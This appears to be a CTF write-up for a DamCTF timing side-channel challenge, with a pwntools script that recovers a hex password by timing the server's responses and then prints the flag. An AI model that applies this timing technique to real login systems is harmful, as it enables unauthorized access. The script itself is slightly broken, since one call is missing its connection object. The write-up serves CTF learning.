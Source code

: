 ## misc/side-channel
>We built a super-secure password checker.
Can you guess what my password is?
>
>This challenge does NOT require brute forcing, you can get the flag with one connection.


* Timing attack, measuring the time lookups take when passing in "f"

Solution Script:
(May need to be run several times, since the timing lookup is not too accurate and a bit messy)
```python=
from pwn import *
import time
import re


times = []

def guess(ind, c="f"):
    start = time.time()
    r.sendline(c)
    line = r.recvline()
    end = time.time()
    times.append(end - start)
    print("TIME on guess", ind, ": ", end - start)
    print("\n\n")
    print(line.decode())

def lookup_char(t):
    p = t
    t = re.match(r'\d+.\d{1}', str(t)).group(0)
    t = float(t)

    if t == 0.2 and p > 0.2035:
        return "0"
    if t == 0.6 or t == 0.4:
        return "1"
    if t == 0.8:
        return "2"
    if t == 1.2:
        return "3"
    if t == 1.4:
        return "4"
    if t == 1.8:
        return "5"
    if t == 2.0 or t == 1.9:
        return "6"
    if t == 2.4:
        return "7"
    if t == 2.6 or t == 2.5:
        return "8"
    if t == 2.8:
        return "9"
    if t == 3.2:
        return "a"
    if t == 3.4:
        return "b"
    if t == 3.8 or t == 3.7:
        return "c"
    if t == 4.0:
        return "d"
    if t == 4.5:
        return "e"
    if (t == 0.2 and p < 0.2035) or t == 0.1:
        return "f"
    return "UNKNOWN"

r = remote("chals.damctf.xyz", 30318)

line = r.recvuntil("Password guessing Trial 1\n")
print(line.decode())

# Timing Attack
ind = 0
line = r.recvline()
print(line.decode())
for x in range(8):
    guess(ind)
    ind += 1

# Utilize Timing Data
ind = 0
line = r.recvline()
print(line.decode())
for x in range(8):
    g = lookup_char(times[ind])
    guess(ind, g)
    ind += 1

# Print Flag
line = recvuntil("}")
print(line.decode())

r.close()
````

Flag: `dam{d0nT_d3l4y_th3_pRoC3sSiNg}`